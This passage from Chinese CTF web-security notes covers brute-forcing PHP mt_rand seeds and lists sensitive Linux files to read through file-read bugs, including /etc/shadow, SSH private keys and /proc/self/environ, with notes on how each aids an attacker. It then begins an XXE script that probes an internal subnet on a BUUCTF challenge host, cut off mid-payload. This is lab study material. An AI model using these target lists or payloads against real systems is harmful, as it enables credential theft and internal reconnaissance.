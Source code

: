 42. 使用[php_mt_seed](https://www.openwall.com/php_mt_seed/)爆破php伪随机数函数[mt_rand](https://www.freebuf.com/vuls/192012.html)种子。例题:[[GWCTF 2019]枯燥的抽奖](https://blog.csdn.net/shinygod/article/details/124067962)
43. linux可读取的敏感文件。

[来源](https://www.shawroot.cc/1007.html)

```
/etc/passwd
/etc/shadow
/etc/hosts
/root/.bash_history //root的bash历史记录，每个用户的家目录下都有这么一个文件
/root/.ssh/authorized_keys
/root/.mysql_history //mysql的bash历史记录
/root/.wget-hsts
/opt/nginx/conf/nginx.conf //nginx的配置文件
/var/www/html/index.html
/etc/my.cnf
/etc/httpd/conf/httpd.conf //httpd的配置文件
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts
/proc/config.gz
/proc/sched_debug // 提供cpu上正在运行的进程信息，可以获得进程的pid号，可以配合后面需要pid的利用
/proc/mounts // 挂载的文件系统列表
/proc/net/arp //arp表，可以获得内网其他机器的地址
/proc/net/route //路由表信息
/proc/net/tcp and /proc/net/udp // 活动连接的信息
/proc/net/fib_trie // 路由缓存,可用于泄露内网网段
/proc/version // 内核版本
//以下文件若不知道PID，用self代替也可以
/proc/[PID]/cmdline // 可能包含有用的路径信息
/proc/[PID]/environ // 程序运行的环境变量信息，可以用来包含getshell。也有例如flask的题目会把SECRET KEY放里面
/proc/[PID]/cwd // 当前进程的工作目录
/proc/[PID]/fd/[#] // 访问file descriptors，某写情况可以读取到进程正在使用的文件，比如access.log
/proc/self/cmdline //获取当前启动进程的完整命令
/proc/self/mem   //进程的内存内容。注意该文件内容较多而且存在不可读写部分，直接读取会导致程序崩溃。需要结合maps的映射信息来确定读的偏移值。即无法读取未被映射的区域，只有读取的偏移值是被映射的区域才能正确读取内存内容。
/proc/self/maps  //当前进程的内存映射关系，通过读该文件的内容可以得到内存代码段基址。
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/.ssh/authorized_keys
/etc/ssh/sshd_config
/var/log/secure
/etc/sysconfig/network-scripts/ifcfg-eth0
/etc/syscomfig/network-scripts/ifcfg-eth1
/sys/class/net/eth0/address //eth0网卡的MAC地址
```

44. 基础[xxe](../../CTF/BUUCTF/Web/[NCTF2019]Fake%20XML%20cookbook.md)探测内网网段脚本。

题目及来源:[[NCTF2019]True XML cookbook](https://www.cnblogs.com/Article-kelp/p/16026652.html)

```python
import requests as res
url="http://9b0cf961-6439-461e-862f-882833e83736.node4.buuoj.cn:81/doLogin.php"
rawPayload='<?xml version="1.0"?>'\
         '<!DOCTYPE user ['\
         '<!ENTITY payload1 SYSTEM "http://10.244.80.{}">'\
         ']>'\
         '<user>'\
         '<username>'\
         '&payload1;'\
         '</username>'\
         '<password>'\
         '23'\
         '</password>'\
```